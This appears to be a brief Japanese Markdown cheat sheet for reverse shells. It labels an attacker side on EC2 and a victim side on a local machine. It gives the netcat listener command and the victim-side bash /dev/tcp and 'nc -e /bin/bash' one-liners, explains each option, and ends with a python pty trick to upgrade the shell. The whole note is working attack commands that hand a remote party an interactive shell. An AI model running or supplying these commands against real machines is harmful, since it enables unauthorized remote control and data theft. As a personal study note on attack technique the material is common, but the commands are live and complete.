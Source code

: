 # リバースシェル
## bashの場合
### 攻撃者側（EC2）
#### 指定したポート番号で待ち受け状態
`nc -vnlp <待ち受けるport>`

#### オプション説明
- v 詳細な出力
- l リスニング
- n 名前解決無効
- p ポート

### 被害者側（ローカル）
#### シェルの入力と出力をリモートサーバーへのTCP接続にリダイレクトする
`bash -i > /dev/tcp/<EC2のIP>/<相手のlisten port 2>&1　0>&1`  
`bash -i >& /dev/tcp/<EC2のIP>/<相手のlisten port 0>&1`  
※どちらでもよい  

- bash: 新しいBashシェルを起動する
- -i：シェルを対話型にし、ユーザーがコマンドを入力できるようにする。
- >&：標準出力（stdout）と標準エラー（stderr）の両方を指定された場所にリダイレクトする。
- /dev/tcp/<EC2のIP>/<listen port>: stdoutとstderrをリダイレクトする場所を指定する。この場合、8000番ポートのIPアドレスのリモートサーバへのTCP接続にリダイレクトされます。
- 0>&1：標準入力（stdin）をstdoutとstderrと同じ場所にリダイレクトし、ユーザーが同じTCP接続を通じてコマンドを入力できるようにします。
- EC2側からローカルの情報が見放題・・・おそろしや

## ncコマンド/netcatの場合

### 攻撃者側（EC2）
#### 指定したポート番号で待ち受け状態
`nc -vnlp <待ち受けるport>`  
  
### 被害者側（ローカル）
#### シェルの入力と出力をリモートサーバーへのTCP接続にリダイレクトする
`nc -nv <EC2のIP> <Port> -e /bin/bash`  

- -v 接続できた旨のメッセージが出力

### おまけ
`python3 -c "import pty; pty.spawn('/bin/bash')"`  

シャルの整形
